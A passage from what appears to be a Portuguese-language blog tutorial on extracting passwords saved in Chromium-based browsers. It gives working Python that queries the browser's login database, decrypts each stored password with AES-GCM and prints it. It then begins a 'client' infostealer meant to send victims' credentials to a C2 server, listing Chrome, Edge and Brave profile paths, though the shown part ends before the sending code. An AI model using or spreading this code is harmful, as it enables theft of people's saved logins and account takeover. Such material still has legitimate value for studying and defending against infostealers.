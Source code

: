 ```python

if(secret_key):
    cursor = conn.cursor()
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for index,login in enumerate(cursor.fetchall()):
        url = login[0]
        username = login[1]
        ciphertext = login[2]
        if(url!="" and username!="" and ciphertext!=""):

            iv = ciphertext[3:15]
            encrypted_password = ciphertext[15:-16]
            cipher = AES.new(secret_key, AES.MODE_GCM, iv)
            decrypted_pass = cipher.decrypt(encrypted_password)
            decrypted_pass = decrypted_pass.decode()

            print("URL: %s\nUser Name: %s\nPassword: %s\n"%(url,username,decrypted_pass))

    cursor.close()
    conn.close()
    os.remove("Loginvault.db")
```

Executando o script, é possível extrair as minhas credenciais salvas no navegador, nesse caso o meu acesso ao site do duolingo

![](/assets/images/BCred/bc-04.png){: .align-center}

# Exemplo prático de uso

Para mostrar um possível uso prático, vamos imaginar um cenário onde o atacante deseja extrair as credenciais da vítima e enviar essas informações para um C2

Nesse caso é necessário criar 2 script: um client e um server

## Client

Nesse exemplo, eu vou utilizar o mesmo script python usado anteriormente, somente vou adicionar algumas funções a mais, como por exemplo, uma função para identificar os navegadores presentes na máquina da vitima e a requisição que vai enviar as informações encontradas para o servidor

O script final ficou assim:

```python
import os
import re
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil
import requests

  

appdata = os.environ['USERPROFILE']
browsers = {

    'google-chrome-sxs': appdata + '\\AppData\\Local\\Google\\Chrome SxS\\User Data',
    'google-chrome': appdata + '\\AppData\\Local\\Google\\Chrome\\User Data',
    'microsoft-edge': appdata + '\\AppData\\Local\\Microsoft\\Edge\\User Data',
    'brave': appdata + '\\AppData\\Local\\BraveSoftware\\Brave-Browser\\User Data',
}
```